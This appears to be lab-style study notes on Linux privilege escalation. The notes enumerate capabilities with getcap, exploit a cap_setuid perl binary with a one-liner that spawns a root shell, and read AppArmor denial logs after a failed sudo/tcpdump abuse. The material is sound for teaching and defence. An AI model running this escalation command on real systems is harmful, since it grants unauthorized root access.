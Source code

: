 ```bash
joe@debian-privesc:~$ /usr/sbin/getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_raw+ep
/usr/bin/perl = **cap_setuid+ep**
/usr/bin/perl5.28.1 = cap_setuid+ep
/usr/bin/gnome-keyring-daemon = cap_ipc_lock+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

The two perl binaries stand out as they have setuid capabilities enabled, along with the +ep flag specifying that these capabilities are effective and permitted. Even though they seem similar, capabilities, setuid, and the setuid flag are located in different places within the Linux ELF file format.

In order to exploit this capability misconfiguration, we could check the GTFOBins website. This site provides an organized list of UNIX binaries and how can they be misused to elevate our privileges.

Searching for "Perl" on the GTFOBins website, we'll find precise instructions for which command to use to exploit capabilities. We'll use the whole command, which executes a shell along with a few POSIX directives enabling setuid.

```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

### Abusing Sudo

You can think of sudo as changing the effective user-id of the executed command. Custom configurations of sudo-related permissions can be applied in the /etc/sudoers file. 

Let's say that you're doing a GTFObins escalation, and you get hit with a "failed: Permission Denied", what should you do? Check the logs.

```bash
cat /var/log/syslog | grep tcpdump # or whatever command you were trying to abuse
...
Aug 29 02:52:14 debian-privesc kernel: [ 5742.171462] audit: type=1400 audit(1661759534.607:27): apparmor="DENIED" operation="exec" profile="/usr/sbin/tcpdump" name="/tmp/tmp.c5hrJ5UrsF" pid=12280 comm="tcpdump" requested_mask="x" denied_mask="x" fsuid=0 ouid=1000
```

The logs show that the audit daemon logged the privesc attempt, and it shows that AppArmor was what triggered and blocked us. AppArmor is a kernel module that provides mandatory access control (MAC) on Linux systems by running various application-specific profiles, and it's enabled by default on Debian 10. We can verify AppArmor's status as the root user using the aa-status command.

```bash
joe@debian-privesc:~$ su - root
Password:
root@debian-privesc:~# aa-status
apparmor module is loaded.
20 profiles are loaded.
18 profiles are in enforce mode.
   /usr/bin/evince
   /usr/bin/evince-previewer
   /usr/bin/evince-previewer//sanitized_helper
   /usr/bin/evince-thumbnailer
   /usr/bin/evince//sanitized_helper
   /usr/bin/man
   /usr/lib/cups/backend/cups-pdf
   /usr/sbin/cups-browsed
   /usr/sbin/cupsd
   /usr/sbin/cupsd//third_party
   /usr/sbin/tcpdump
...
```
